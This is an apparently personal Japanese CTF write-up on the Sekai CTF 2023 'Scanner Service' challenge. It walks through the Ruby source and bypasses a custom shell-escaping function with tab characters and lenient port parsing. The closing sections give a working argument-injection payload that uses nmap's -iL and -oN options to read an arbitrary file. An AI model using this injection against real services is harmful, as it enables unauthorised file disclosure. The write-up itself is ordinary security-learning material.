



# Sekai CTF 2023

- [Sekai CTF 2023](#sekai-ctf-2023)
  - [概要](#概要)
  - [分析](#分析)
  - [攻撃方法を考える](#攻撃方法を考える)
  - [nmapのオプションを見る](#nmapのオプションを見る)
  - [fileの名前](#fileの名前)
  - [Payloadの組み立て](#payloadの組み立て)

## 概要

悲しい。何もできなかった

競技中取り組んでいた、`Scanner Service`だけ復習しておきます。

## 分析

配布ファイルは以下のような感じです。

```bash
$ tree
.
├── Dockerfile
├── build-docker.sh
├── config
│   └── supervisord.conf
├── flag.txt
└── src
    ├── Gemfile
    ├── Gemfile.lock
    ├── app
    │   ├── controllers
    │   │   └── scanner.rb
    │   ├── helper
    │   │   └── scanner_helper.rb
    │   └── views
    │       └── index.erb
    ├── config
    │   └── environment.rb
    ├── config.ru
    └── public
        └── stylesheets
            └── style.css

10 directories, 12 files
```

`src/app/controllers/scanner.rb`をみてみると、

<details>
<summary>scanner.rb</summary>

```ruby
require 'sinatra/base'
require_relative '../helper/scanner_helper'

class ScanController < Sinatra::Base

  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end

  get '/' do
    erb :'index'
  end

  post '/' do
    input_service = escape_shell_input(params[:service])
    hostname, port = input_service.split ':', 2
    begin
      if valid_ip? hostname and valid_port? port
        # Service up?
        s = TCPSocket.new(hostname, port.to_i)
        s.close
        # Assuming valid ip and port, this should be fine
        @scan_result = IO.popen("nmap -p #{port} #{hostname}").read
      else
        @scan_result = "Invalid input detected, aborting scan!"
      end
    rescue Errno::ECONNREFUSED
      @scan_result = "Connection refused on #{hostname}:#{port}"
    rescue => e
      @scan_result = e.message
    end

    erb :'index'
  end

end
```
</details>

postで、parameterとして`params[:service]`として外部からの入力を受け取ります。

ただ、`params[:service]`は`escape_shell_input関数`を通っていきます。

<details>
<summary>escape_shell_input</summary>

```ruby
def escape_shell_input(input_string)
  escaped_string = ''
  input_string.each_char do |c|
    case c
    when ' '
      escaped_string << '\\ '
    when '$'
      escaped_string << '\\$'
    when '`'
      escaped_string << '\\`'
    when '"'
      escaped_string << '\\"'
    when '\\'
      escaped_string << '\\\\'
    when '|'
      escaped_string << '\\|'
    when '&'
      escaped_string << '\\&'
    when ';'
      escaped_string << '\\;'
    when '<'
      escaped_string << '\\<'
    when '>'
      escaped_string << '\\>'
    when '('
      escaped_string << '\\('
    when ')'
      escaped_string << '\\)'
    when "'"
      escaped_string << '\\\''
    when "\n"
      escaped_string << '\\n'
    when "*"
      escaped_string << '\\*'
    else
      escaped_string << c
    end
  end

  escaped_string
end

```
</details>

これにより、基本的なPayloadは弾かれます。

次に、`:`をsplitすることにより、`hostname`, `port`に分割されます。

```ruby
hostname, port = input_service.split ':', 2
```

つまり、`127.0.0.1:8080`とすると、`hostname: 127.0.0.1, port: 8080`となります。

そして、`valid_ip`, `valid_port`の判定を通ります。

<details>
<summary>valid_ip, valid_port</summary>

```ruby
def valid_port?(input)
  !input.nil? and (1..65535).cover?(input.to_i)
end

def valid_ip?(input)
  pattern = /\A((25[0-5]|2[0-4]\d|[01]?\d{1,2})\.){3}(25[0-5]|2[0-4]\d|[01]?\d{1,2})\z/
  !input.nil? and !!(input =~ pattern)
end
```
</details>

valid_ipは、ip addressの形式のチェックで、valid_portは、`input.to_i`の結果が`1~65535`ならokです。

コレを通り抜けたら、

```ruby
s = TCPSocket.new(hostname, port.to_i)
s.close
# Assuming valid ip and port, this should be fine
@scan_result = IO.popen("nmap -p #{port} #{hostname}").read
```

`TCPSocker.new(hostname, port.to_i)`で疎通確認をして、最終的に`nmap`を行い結果を表示するような感じのアプリケーションです。


## 攻撃方法を考える

hostnameは攻撃できるとは思えないので、portが狙いめな気がします。

というのも、`to_i`の挙動です。

`to_i`は、整数とみなせない文字がある時は整数とみなせる部分まで変換して処理を終わります。

つまり、`valid_port`に、`8080--`と入れれば`8080`と解釈するということです。

コレによりportの記号制限が`escape_shell_input`くらいになります。

最終的に一番難関だったのがescape_shell_inputでした。

が、`Tab`を入れることでこの制限をバイパスできることがwriteupを見ることでわかりました。。。

```bash
127.0.0.1:1337	a
```

上記を入力することで、`namp -p 1337	a 127.0.0.1`が実行され、`Failed to resolve "a".`とエラーが出ますが、



実行遺体は問題なくできていることがわかります。

つまり、ここではオプションが更に渡せそうです。

## nmapのオプションを見る

競技中にオプションに追加できたときのことを考え、適当にオプションを眺めていたところ (結局`escape_shell_input`に負けて意味なかったですが), `iL`が一番良さそうでした

```bash
nmap -iL /tmp/test.txt  127.0.0.1 -p 8080
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-29 19:15 JST
Failed to resolve "fugahogepiyo".
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.02 seconds
```

ファイルの読み取り方法は`iL`を使えば良さそうです。

## fileの名前

```Dockerfile
RUN mv /flag.txt /flag-$(head -n 1000 /dev/random | md5sum | head -c 32).txt
```

Dockerfileを見てみると、fileが予測不可能であることがわかります。

これは`?`でどうにかなるようです。(たしかになぁ、、)

ということで、ファイルの読み取りは`flag-????????????????????????????????.txt`で良さそうです。


## Payloadの組み立て

tabがうまく入らない気がするので、bashで`echo $'\t' a`とやると良いです。

```bash
127.0.0.1:1337	-iL	/flag-????????????????????????????????.txt
```

これでDockerを実行しているターミナルで、`Failed to resolve "SEKAI{7357_fl46}".`と出てきたことがわかりますが、実はブラウザ上では表示されていません。



もう少し必要なようです。

`-oN -`で結果を標準出力に出すことができるのでそれを使います。

```bash
127.0.0.1:1337	-iL	/flag-????????????????????????????????.txt	-oN	-	
```




